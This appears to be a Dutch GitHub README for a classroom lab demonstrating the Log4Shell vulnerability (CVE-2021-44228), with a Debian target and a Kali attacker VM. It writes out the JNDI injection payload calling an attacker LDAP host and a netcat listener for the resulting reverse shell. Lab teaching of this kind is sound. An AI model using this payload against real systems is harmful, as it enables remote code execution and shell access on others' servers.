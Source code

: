 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Installatie script target VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwaredebian.sh)

### Stappen:
Open op je VM een terminal, je zal zien dat in je home directory een file CyberSec25 aanwezig is.
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
sudo ./setup_target.sh
```
Het script zal de nodige libraries installeren om een jetty webapplicatie op te stellen.

Deze wordt vervolgens gehost op: [http://localhost:8080].

Je target VM is opgezet.

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Installatie script attacker VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwareLinux.sh)

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```
- jndi = een Java API waarmee je objecten kunt opzoeken
- ldap:// = het protocol
- 10.0.2.5 = IP van de aanvaller / LDAP-server
- :1389 = standaard poort voor LDAP
- /a = zoekpad of zoek-id in de LDAP-directory

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
